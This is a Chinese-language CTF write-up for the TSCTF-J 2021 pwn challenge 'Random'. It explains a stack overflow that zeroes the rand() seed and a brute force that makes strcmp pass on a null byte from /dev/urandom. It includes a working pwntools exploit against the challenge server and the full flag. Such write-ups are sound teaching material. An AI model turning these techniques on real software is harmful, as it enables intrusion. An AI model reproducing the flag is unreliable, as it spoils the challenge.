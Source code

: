 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Random WriteUp
tags: ['TSCTF-J_2021', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 分析

使用 IDA 打开, 发现题目要求我们输入正确10次C产生的随机数, 接着需要再输入正确的`/dev/urandom`产生的随机字节数据流

### 初期资料

#### rand()
`rand()`函数每次调用前都会查询是否调用过`srand(seed)`，是否给`seed`设定了一个值，如果有那么它会自动调用`srand(seed)`一次来初始化它的起始值
若之前没有调用`srand（seed）`，那么系统会自动给`seed`赋初始值，即`srand（1）`自动调用它一次

<!--truncate-->

#### /dev/urandom

`/dev/urandom`是Linux系统中提供的随机伪设备，任务是提供永不为空的随机字节数据流。



既然`rand()`是根据随机数种子`seed`生成随机数，那么只要`seed`相同，不就可以生成一样的随机数了么？



### 分析代码

#### 第一个随机

我们可以发现*buf*的长度是*22*, 却可以读入*0x30bytes*的数据

![read函数](https://cdn.novanoir.moe/img/image-20211025093806860.png)

观察栈堆，可以发现*buf*与*seed*只相距*0x18*个字节, 则我们可以考虑栈溢出覆盖随机数种子

![栈堆](https://cdn.novanoir.moe/img/image-20211025094037688.png)

#### 第二个随机

这里就略有难度了。搜索的时候我发现了一个通过填充`\x00`使`strlen=0`直接跳过`strncmp`的方法，但这个显然不适合我们的`strcmp`

![第二个随机](https://cdn.novanoir.moe/img/image-20211025095441204.png)

但`strcmp`工作原理是这样的：

> strcmp: 两个字符串自左向右逐个字符相比（按ASCII值大小相比较），直到出现不同的字符或遇'\0'为止。

也就是说, 如果*s*是以`\x00`开头的话, 我们的`strcmp`就会返回0, 而不用管后面的数据和`buff`是什么。

这也就是真正的random - 让`/dev/urandom`生成以`\x00`开头的字节数据流。

### 编写脚本

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
def burp():
    sh = remote("173.82.120.231", 10000) 
    # sh = process("./randomn") # 在本地测试的时候不知道为什么会报EOFError, 只好连接服务器跑脚本 （问了一哈可能是Ubuntu20.04LTS的程序保护问题）
    libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # 引用库文件
    payload = '\x00' * 0x20 # 既然我们的数据都只与buf和seed有关，不如直接全用\x00填充掉
    sh.sendlineafter("ranqom...",payload)
    libc.srand(1) # 用0和用1作为seed结果是一样的
    for i in range(10):
    	a = libc.rand()%100
    	sh.sendlineafter("is the number?\n", str(a))
    
    # Random_2
    payload = '\x00' # 随便填充一个啦
    sh.sendafter("THIS!??!!", payload)
    print(sh.recvline()) # 会有一个空行所以print了一下，其实也没有必要（）
    respon = str(sh.recvline())
    print(respon)
    if 'LUuUncky' in respon:
    	sh.interactive()
    else:
    	burp()
burp()
```

> 这里有一个小细节, 我们把`seed`用`\x00`填充后，`rand()`函数会自动调用`srand(1)`一次, 而其实`srand(1)`和`srand(0)`的结果是相同的
>
> 关于这里我在[stackoverflow](https://stackoverflow.com/questions/8049556/what-s-the-difference-between-srand1-and-srand0)上找到了一篇文章
>
> > How glibc does it:
> >
> > >  [around line 181 of glibc/stdlib/random_r.c](http://sourceware.org/git/?p=glibc.git;a=blob;f=stdlib/random_r.c;h=51a2e8c812aee78783bd6d38c1b6269d41c8e47e;hb=HEAD#l181), inside function `__srandom_r`
> >
> > ```csharp
> >   /* We must make sure the seed is not 0.  Take arbitrarily 1 in this case.  */
> >   if (seed == 0)
> >     seed = 1;
> > ```
> > But that's just how glibc does it. It depends on the implementation of the C standard library.

于是接下来就是漫长的爆破环节了，只能说运气是真的不好，爆破了一个多小时，让我一度以为脚本写的有问题（）

![后半段](https://cdn.novanoir.moe/img/image-20211025104934165.png)

经过漫长的等待终于拿到了FLAG`o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`，但只有后半段？怎么会事呢？

仔细研究IDA才发现，前半段其实在第一次random随机的时候就给出了（但是我由于觉得log等级debug的东西太多了在跑的时候给他注释掉了）

![前半段_IDA](https://cdn.novanoir.moe/img/image-20211025101006065.png)

于是再跑一次前半段，得到前半段flag`TSCTF-J{G0`

![前半段](https://cdn.novanoir.moe/img/image-20211025101032214.png)

拼接一下就有完整的FLAG了：

`TSCTF-J{G0o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`

